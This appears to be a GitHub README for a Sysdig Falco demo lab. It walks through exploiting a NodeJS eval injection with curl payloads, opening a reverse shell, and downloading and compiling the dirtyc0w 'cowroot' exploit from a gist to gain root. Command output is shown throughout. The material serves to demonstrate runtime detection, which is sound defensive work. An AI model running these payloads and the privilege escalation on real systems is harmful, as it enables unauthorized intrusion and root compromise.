 # falco-demo
This builds an scenario for showing Sysdig Falco, exploiting incorrect input passed to eval in NodeJS and the dirtyc0w to get root access. You can use this Vagrant image https://atlas.hashicorp.com/bencer/boxes/dirtycow.

run the scenario:
```
vagrant up
vagrant ssh
cd /vagrant/nodejs/bad-rest-api
docker-compose up
```

discover vulnerability:

`curl -X POST --data year="2016" http://localhost:8080/api/days-from-year/`
`curl -X POST --data year="res.write('foobar')" http://localhost:8080/api/days-from-year/`

try1 (not working, new listening ports not exposed):

`curl -X POST --data "@shell.js" http://localhost:8080/api/days-from-year/`
`curl "http://localhost:8000/?cmd=cat%20/etc/passwd"`

try2:

`nc -lvp 9999`
`curl -X POST --data "@rshell.js" http://localhost:8080/api/days-from-year/`

```
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [172.18.0.3] port 9999 [tcp/*] accepted (family 2, sport 43398)
id
uid=999(node) gid=999(node) groups=999(node)
pwd
/home/node
curl https://gist.githubusercontent.com/joshuaskorich/86c90e12436c873e4a06bd64b461cc43/raw/71db45f5b97c8e4ed00f1193e578a77f90dabbdd/cowroot.c > cowroot.c
gcc cowroot.c -o cowroot -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:107:17: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast
         lseek(f,map,SEEK_SET);
                 ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
./cowroot
/bin/sh: 1: cannot create /proc/sys/vm/dirty_writeback_centisecs: Read-only file system
id
uid=0(root) gid=999(node) groups=999(node)
```

note: for increased stability run this in the VM before running the exploit, Docker mounts /proc/sys in ro so the exploit tends to freeze the VM.
```
sudo -s
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```


